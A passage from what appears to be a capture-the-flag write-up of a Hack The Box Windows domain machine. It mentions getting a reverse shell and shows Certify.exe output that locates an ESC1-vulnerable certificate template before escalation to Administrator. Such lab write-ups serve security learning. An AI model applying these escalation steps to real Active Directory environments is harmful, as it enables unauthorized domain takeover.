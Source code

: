 Then we just wait. After a while, we would start to get calls on our HTTP servers and get a reverse shell as the user.&#x20;

<figure><img src="../../../.gitbook/assets/image (43) (8) (1).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

## Privilege Escalation

### ESC1 Exploit

Earlier, we saw a share about `CertEnroll`, which is a possible exploit path to get an Administrator shell. First, let's use `Certify.exe` to locate any vulnerable templates on the machine.&#x20;

```
C:\Users\diegocruz\Desktop>.\Certify.exe find
<TRUNCATED>
CA Name                               : earth.windcorp.htb\windcorp-CA
    Template Name                         : Web
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : PUBLISH_TO_DS
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Server Authentication
    mspki-certificate-application-policy  : Server Authentication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : WINDCORP\Domain Admins        S-1-5-21-3510634497-171945951-3071966075-512
                                      WINDCORP\Enterprise Admins    S-1-5-21-3510634497-171945951-3071966075-519
        All Extended Rights         : WINDCORP\webdevelopers        S-1-5-21-3510634497-171945951-3071966075-3290
      Object Control Permissions
        Owner                       : WINDCORP\Administrator        S-1-5-21-3510634497-171945951-3071966075-500
        Full Control Principals     : WINDCORP\webdevelopers        S-1-5-21-3510634497-171945951-3071966075-3290
        WriteOwner Principals       : WINDCORP\Administrator        S-1-5-21-3510634497-171945951-3071966075-500
                                      WINDCORP\Domain Admins        S-1-5-21-3510634497-171945951-3071966075-512
                                      WINDCORP\Enterprise Admins    S-1-5-21-3510634497-171945951-3071966075-519
                                      WINDCORP\webdevelopers        S-1-5-21-3510634497-171945951-3071966075-3290
```